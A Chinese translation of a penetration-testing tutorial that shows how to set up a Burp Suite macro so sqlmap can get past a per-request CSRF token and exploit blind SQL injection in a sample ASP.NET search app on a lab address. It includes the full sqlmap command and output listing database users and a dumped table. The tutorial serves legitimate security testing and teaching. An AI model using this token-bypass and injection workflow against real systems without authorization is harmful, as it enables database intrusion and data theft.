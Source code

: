 
# 【技术分享】使用burp macros和sqlmap绕过csrf防护进行sql注入


                                阅读量   
                                **233070**
                            
                        |
                        
                                                            评论
                                <b>
                                    <a target="_blank">3</a>
                                </b>
                                                                                                                                    ![](./img/85593/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



##### 译文声明

本文是翻译文章，文章原作者，文章来源：安全客
                                <br>原文地址：[https://www.cyberis.co.uk/burp_macros.html](https://www.cyberis.co.uk/burp_macros.html)

译文仅供参考，具体内容表达以及含义原文为准

[![](./img/85593/t01e876e9474824430b.png)](./img/85593/t01e876e9474824430b.png)

****

翻译：[派大星](http://bobao.360.cn/member/contribute?uid=1009682630)

预估稿费：150RMB

投稿方式：发送邮件至[linwei#360.cn](mailto:linwei@360.cn)，或登陆[网页版](http://bobao.360.cn/contribute/index)在线投稿



**前言**

有很多工具可以用来对web应用进行自动化测试。其中最有名的应当是sqlmap。Sqlmap让你轻松的通过命令行确认和利用SQL注入漏洞。然而，一些像CSRF、tokens或者简单的的反自动化技术如在一个表单中包含一个隐藏值就能够阻止自动化工具正确的工作。Burp Suite中的Macros是一个绕过这些方法去进行自动化测试的优秀方法，虽然它实现起来有些复杂。

在本文中我们将用一个简单的web程序作为例子，用户可以用这个程序搜索动物的图片。

[![](./img/85593/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t01ee88ae9533c42545.png)

这是一个使用SQL Server做后端数据库的ASP.NET程序。它有SQL盲注漏洞。我们可以从下图看到。

[![](./img/85593/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01071af0e405cc2e2f.png)

如果我们看了一眼源代码，就会发现在一个输入表单中有一个隐藏的GUID token。

```
&lt;form method="post" action="./" id="form1"&gt;
    &lt;div&gt;
        &lt;input name="txtQuery" type="text" id="txtQuery" style="width:270px;" /&gt;
        &lt;input type="submit" name="btnSearch" value="Search" id="btnSearch" /&gt;        &lt;input type="hidden" name="token" id="token" value="012aedf8-412a-4418-bd76-cf61f13ec22f" /&gt;
    &lt;/div&gt;
    &lt;/form&gt;
    &lt;span id="lblResultText"&gt;&lt;/span&gt;
    &lt;br /&gt;
    
&lt;/body&gt;
&lt;/html&gt;
```

这个token是每次由服务器端的相应生成的。如果这个发送的token和服务器端的不一致，将会出现一个错误。

[![](./img/85593/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01042079752f207726.png)

所以考虑到这一点，让我们看看在不使用macro去修改请求时使用sqlmap会发生什么。我们使用以下命令。



```
$ sqlmap -u http://10.99.10.20:8080 --method=POST --data= "__VIEWSTATE=ThFsV9HLtQRaOW3ksjD%2F8jPJ%2BK4oYtIZJ9UZjSdVZecr9MFluyVQIMvZTKyg3Q1eCjcahMgDNYnhBeQIA2FCGq1HaWWj8WE3CPXbXZc5j3I%3D&amp;__VIEWSTATEGENERATOR=CA0B0334&amp;__EVENTVALIDATION=3OHOMEoCmtD5YRvASiOGybpufR%2BFQoZetngO2sq5zb9YFl3HtW%2BBzrISbPZE58dZtG6LsC6qns%2BlotceoeBunvTMcKLH8MIyzmxk3PoHuiWpavLOqJGozuk6py0DvKaWvWHDuFZO1QU2dfG5yPZ29nTLapvb3KcAPWAMDBI25FM%3D&amp;txtQuery=cat&amp;btnSearch=Search&amp;token=77d5a318-c2b0-466d-a4ba-b8c5d155c54f" --proxy=http://127.0.0.1:8080 -p txtQuery
```

我们从sqlmap的输出中首先注意到的是一个到错误页面的重定向。

```
[16:42:45] [INFO] testing connection to the target URL
sqlmap got a 302 redirect to 'http://10.99.10.20:8080/error.html?aspxerrorpath=/default.aspx'. Do you want to follow? [Y/n]
```

对sqlmap来说，这个情况看起来并没有什么希望。让我们继续看看会发生什么。

```
[16:45:57] [INFO] testing 'Microsoft SQL Server/Sybase time-based blind (IF)'
[16:45:58] [INFO] testing 'Oracle AND time-based blind'
[16:45:58] [INFO] testing 'Generic UNION query (NULL) - 1 to 10 columns'
[16:45:58] [WARNING] using unescaped version of the test because of zero knowledge of the back-end DBMS. You can try to explicitly set it with option '--dbms'
```

显然，sqlmap认为这些参数不能注入，然而我们知道可以注入。现在让我们建立一个Burp macro，它将会使用一个新的token替换掉请求中的“token”参数以便于我们使用sqlmap。<br>

Burp Suite中的macro是在Burp中代理的请求之前被发送到服务器端的一系列请求。一旦macro请求被执行，最后一个macro响应中的一系列参数能够被接下来的请求所携带。这就叫做macro。

首先我们要做的就是标记我们想要使用的一系列请求。在这个例子中只有一个请求：一个发往服务器的Get请求。然而Macro可以用来执行复杂的操作。比如登陆到一个应用然后取出cookies。在Burp Suite中点击“Project options”标签然后点击其中的“Sessions”子标签。

[![](./img/85593/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t0199934a91e05bc673.png)

滚动到Macro部分然后点击add。

[![](./img/85593/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t0152652d1412d52b8b.png)

两个对话框将会弹出。第一个是macro编辑器，第二个是macro记录器。为了确定我们将要执行的是哪些请求，我们需要“记录”我们想要生成的macro。可以通过两步实现它：现在我们可以执行一些动作作为macro的一部分（例如：浏览登陆页面，发送特定的Get请求等等）。然后在列表中选择它们。或者我们可以直接从代理历史中选择。看来我们只是寻找一个请求，我们已经做了，我们将使用第二个选项。

[![](./img/85593/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t0133314a670cf76849.png)

一旦我们选中期望的请求，就点击OK键，然后我们就进入到macro编辑器。

[![](./img/85593/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t0131c98293e245a672.png)

从这里开始我们需要对已经被拦截的请求做一些小改动。对于高亮的请求，我们点击“Configure item”。“Configure Macro itme”对话框将会弹出。然后我们点击“Custom parameter location in response”部分的add按钮。

[![](./img/85593/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t018b80948429da2bd9.png)

然后我们需要在响应中定位参数。高亮我们想要提取的值然后为参数命名以便于在macro完成的时候它能够被最后的请求带上。

[![](./img/85593/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t01bb57a10b5ad87ed5.png)

“Define start and end”部分将被自动填充当我们在响应中高亮需要的值。其他的就按照默认值就可以了。点击OK直到关闭所有对话框。

现在我们生成了自己的macro。但是我们仍然需要实现一个会话処理规则（session handling rule）使macro在需要的时候执行。在Session标签中找到“Session Handling Rules”部分然后点击add按钮。

[![](./img/85593/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t018e1ae87b3b5c6e05.png)

当对话框弹出时点击在“Rule Actions”下面的add按钮，在下拉菜单中选择“Run a Macro”。

[![](./img/85593/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01139222054c95c03d.png)

然后“Session Handling Action Editor”就会出现。在这里我们选择自己的macro。

选择“Update only the following parameters”然后将我们的参数添加到这个列表中。如果我们想要基于macro修改cookies，我们也可以将其添加到这里。在这个例子中并没有cookies被设置。

[![](./img/85593/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t0120f5c2553766a2ae.png)

点击OK关闭对话框然后点击Session Handling Rule Editor中的“Scope”标签。

[![](./img/85593/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01ac31f50ccb04dc8b.png)

在这里我们将要定义受规则影响的请求的范围。在“Tools Scope”中代理并没有被默认选中（如果没有设置好这会影响到每一个经过Burp的请求）。为了在sqlmap中使用这个规则，我们需要使这个规则在代理中启用。为了限制使用范围我们使用“Use suite scope”选项将其设置为只在测试站点使用。最后，我们限制“Parameter Scope”只影响包含token参数的请求，这是我们唯一要修改的。最后点击OK关闭对话框。

这些就是我们需要为sqlmap设置的所有选项。现在当sqlmap的请求经过Burp代理时，Burp就会先发送一个请求到服务器然后用从中得到的token参数替换sqlmap的post请求中的参数值。

N.B：Burp不会在代理历史中展示被修改的请求。如果你认为macro并未正确的工作。你需要在Session标签Project选项中打开sessin tracer。这个能够用来一步一步的移动每个请求然后你就可以观察请求中的变化了。

一旦macro被启动sqlmap就能够正确的在我们的网站中检测出SQL注入然后利用它。



```
[20:38:09] [INFO] POST parameter 'txtQuery' appears to be 'Microsoft SQL Server/Sybase stacked queries (comment)' injectable
[20:38:09] [INFO] testing 'Microsoft SQL Server/Sybase time-based blind (IF)'
[20:38:09] [INFO] testing 'Microsoft SQL Server/Sybase time-based blind (IF - comment)'
[20:38:19] [INFO] POST parameter 'txtQuery' appears to be 'Microsoft SQL Server/Sybase time-based blind (IF - comment)' injectable
[20:38:19] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[20:38:19] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[20:38:19] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[20:38:19] [INFO] target URL appears to have 1 column in query
```

正如你看到的那样，sqlmap发现了参数可注入而且现在我们可以使用sqlmap提取数据了。



```
[20:41:46] [INFO] fetching database users
[20:41:46] [WARNING] reflective value(s) found and filtering out
[20:41:46] [INFO] the SQL query used returns 2 entries
[20:41:46] [INFO] retrieved: animals
[20:41:47] [INFO] retrieved: sa
database management system users [2]:                                                                                                                                                                             
[*] animals
[*] sa
&lt;…SNIP…&gt;
[20:42:44] [INFO] analyzing table dump for possible password hashes
Database: Animals
Table: AnimalImages
[4 entries]
+----+-----------+-------------+
| ID | imageData | description |
+----+-----------+-------------+
| 1  |  blank    | dog         |
| 2  |  blank    | cat         |
| 3  |  blank    | mouse       |
| 4  |  blank    | musk ox     |
+----+-----------+-------------+
```
